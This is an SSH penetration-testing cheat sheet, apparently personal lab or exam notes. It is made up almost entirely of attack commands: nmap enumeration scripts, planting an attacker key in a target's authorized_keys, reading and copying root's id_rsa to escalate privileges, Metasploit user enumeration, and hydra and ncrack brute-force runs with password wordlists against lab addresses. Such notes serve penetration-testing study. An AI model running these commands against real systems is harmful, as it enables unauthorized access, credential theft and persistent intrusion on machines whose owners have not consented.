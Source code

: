# SSH

https://recipeforroot.com/misconfigured-ssh-keys/
https://www.ssh.com/ssh/host-key
http://lerned.wikidot.com/ssh

==the file has to have the right permissions: chmod 600==

**ssh -i "private rsa file"**
Can you login with a password? try name: name or name:password
grep -i PermitRootLogin /etc/ssh/sshd_config

`nmap {nmap_extra} -sV -p {port} --script="ssh2-enum-algos,ssh-hostkey,ssh-auth-methods"`
`nmap','-n','-sV','-Pn','-vv','-p',port,'--script=banner,ssh-auth-methods,sshv1,ssh2-enum-algos,vulners','-oA','/root/scripts/recon_enum/results/exam/ssh/%s_%s_ssh' % (ip_address,port),ip_address])`
`openssl','s_client','-connect','%s:%s' % (ip_address,port)],stderr=errfile)`
`nmap -sV --version-all -n -Pn -p 22 --script="default,freevulnsearch,ssh-run,ssh2-enum-algos,ssh-hostkey,ssh-auth-methods,ssh-publickey-acceptance" 10.11.1.44`



### SSH config on box - SSH w/Key File
`cat /etc/ssh/sshd_config`



## Generate SSH RSA key

`ssh-keygen -b 2048 -t rsa`

if you get access to a user directory ie; via FTP, you can create the .ssh dir,upload your public key and rename it to authorized_keys so that you can then ssh in as the user without providing a password
this is due to ssh configs and where they grab these keys from this is default behavior
`ssh-keygen -f writeup`
writeup = private key, writeup.pub = public key

`echo "public_key" > /[user]/.ssh/authorized_keys on target machine`
`chmod 600 public key`

**`chmod 600 writeup`**
`ssh -i writeup root@10.10.10.138`
connect with private key via ssh to target: `ssh noob@192.168.56.120 -i [key file]` like .ssh/id_rsa or just keik

One thing we know about .ssh directories in users home directories, is that they often contain an “id_rsa” SSH private key file (along with its .pub Public Key counterpart) when that particular user is configured for Public Key Authentication in regards to SSH connections. With that said, knowing these directories often contain “id_rsa” SSH private keys, let’s see if we can read it:
`cd /root/.ssh && cat /root/.ssh/id_rsa`
`cp /root/.ssh/id_rsa /home/lowpriv/.ssh`
`chmod o-rwx /home/lowpriv/.ssh/id_rsa`

`ssh -i /home/lowpriv/.ssh/id_rsa root@localhost`

Use this command to connect if you have a private key and it’s password as it takes both
keep in mind the public key will also have to be in the authorized_keys on the target.  
`ssh -i id_rsa takis@10.10.10.10`



## SSH via proxychains and Squid
/etc/proxychains.conf - in ProxyList section
http 192.168.100.164 3128

`proxychains ssh john@192.168.100.164`

**execute commands via ssh**
`proxychains ssh john@192.168.100.165 '/bin/bash'`

### Metasploit

msf > use auxiliary/scanner/ssh/ssh_enumusers
msf auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 192.168.31.149
RHOSTS => 192.168.31.149
msf auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
USER_FILE => /usr/share/wordlists/metasploit/unix_users.txt
msf auxiliary(scanner/ssh/ssh_enumusers) > run

## SSH bruteforce
`ncrack -p ssh -u root -P 500-worst-passwords.txt -T5 10.10.10.10`
`hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.13.234 ssh`
hydra -t 4 -L /usr/share/wordlists/cristi.txt -P /usr/share/wordlists/cristi-passwords.txt 192.168.13.236 ssh
`hydra -t 4 -L /usr/share/wordlists/cristi.txt -p some_passsword 192.168.13.236 ssh`
`hydra -t 4 -l root -P /usr/share/wordlists/cristi-passwords.txt 127.0.0.1 -s 50000 ssh`

/usr/share/wordlists/SecLists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt
hydra -C default_accounts.txt ftp://localhost

`hydra -L "{username_wordlist}" -P "{password_wordlist}" -e nsr -s {port}` 

python ./40136.py 192.168.31.149 -U /usr/share/wordlists/metasploit/unix_users.txt -e --trials 5 --bytes 10

### SSH Bad Keys

https://github.com/rapid7/ssh-badkeys